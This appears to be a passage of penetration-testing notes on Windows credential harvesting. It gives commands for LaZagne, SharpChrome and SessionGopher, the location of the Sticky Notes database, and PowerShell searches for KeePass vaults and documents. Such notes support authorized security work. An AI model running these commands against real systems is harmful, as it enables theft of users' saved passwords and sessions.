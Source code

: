 ### LaZagne

Running the tool with `all` will search for supported applications and return any discovered cleartext credentials.

- https://github.com/AlessandroZ/LaZagne/releases/tag/v2.4.6

```powershell
.\lazagne.exe all
```

### Browser Credentials

Users often store credentials in their browsers for applications that they frequently visit. We can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.

```powershell-session
.\SharpChrome.exe logins /unprotect
```

### SessionGopher

We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials.

```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

### Sticky Notes Passwords

People often use the StickyNotes app on Windows workstations to save passwords and other information, not realizing it is a database file.

```powershell
cd "C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState"
```

We can copy the **plum.sqlite** files down to our system (KALI) and open them with a tool such as [DB Browser for SQLite](https://sqlitebrowser.org/dl/) and view the **Text** column in the **Note** table with the query **select Text from Note;**.

## Search for Interesting Files

```bash
# Ricerca di file interessanti
powershell tree /f
powershell tree /f C:\Users\

Get-ChildItem -Path C:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem . -Attributes Directory+Hidden -ErrorAction SilentlyContinue -Include ".git" -Recurse

Get-ChildItem -Path C:\ -Include proof.txt, local.txt -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\username\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```